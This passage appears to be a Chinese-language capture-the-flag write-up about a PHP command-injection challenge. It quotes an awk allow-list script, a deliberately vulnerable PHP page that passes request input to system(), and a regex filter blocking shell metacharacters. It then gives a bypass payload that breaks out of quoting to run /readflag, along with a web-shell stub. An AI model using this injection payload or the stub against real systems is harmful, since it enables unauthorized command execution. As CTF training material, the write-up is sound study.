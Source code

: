 ```shell
    allows[10] = "dmesg";
    allows[11] = "xswl";
}{
    num = 1;
    for (i = 1; i <= NF; i++) {
        for (x = 1; x <= length(allows); x++) {
            cmpstr = substr($i, 1, length(allows[x]));
            if (cmpstr == allows[x])
                eval_cmd[num++] = $i;
        }
    }
}
END {
    for (i = 1; i <= length(eval_cmd); i++) {
        if (i != 1)
            printf "| %s", eval_cmd[i];
        else
            printf "%s", eval_cmd[i];
    }
}'
)

[ "${XXXCMD}" = "" ] && reject "NOT ALLOW 2"

eval ${eval_cmd}
```
我卡在这个脚本了，脚本里有很多无用的信息，我一直在理解这段代码，以为可以在这里并行执行
```shell
    for (i = 1; i <= length(eval_cmd); i++) {
        if (i != 1)
            printf "| %s", eval_cmd[i];
        else
            printf "%s", eval_cmd[i];
    }
```
```php
<?php

  //something hide here
  highlight_string(shell_exec("cat ".__FILE__." | grep -v preg_match | grep -v highlight"));

$cmd = $_REQUEST["__secret.xswl.io"];
if (strlen($cmd)>70) {
  die("no, >70");
}
if (preg_match("/('|`|\n|\t|\\\$|~|@|#|;|&|\\||-|_|\\=|\\*|!|\\%|\\\^|index|execute')/is",$cmd)){
  die("你就不能绕一下喵");
}

system("./execute.sh '".$cmd."'");

?>
```
其中preg_match这段字符是看不见的，所以只能进行模糊测试<br />发现；| " '都被过滤掉了，其实我想到新建php文件了，但是我以为php被过滤了（其实过滤的是index），我创建phtml也不能被正常解析，所以以为不是这个思路，就放弃了<br />其实应该是新建php文件，把源文件的内容抽取出来
```php
<?php
$cmd = $_REQUEST["__secret.xswl.io"];
system("./execute.sh '".$cmd."'");
```
还有一个盲点是>>是附加内容的意思，我以为只能用>覆盖<br />最后传入__secret.xswl.io=ls';/readflag;'
<a name="rWz0B"></a>
## SICTF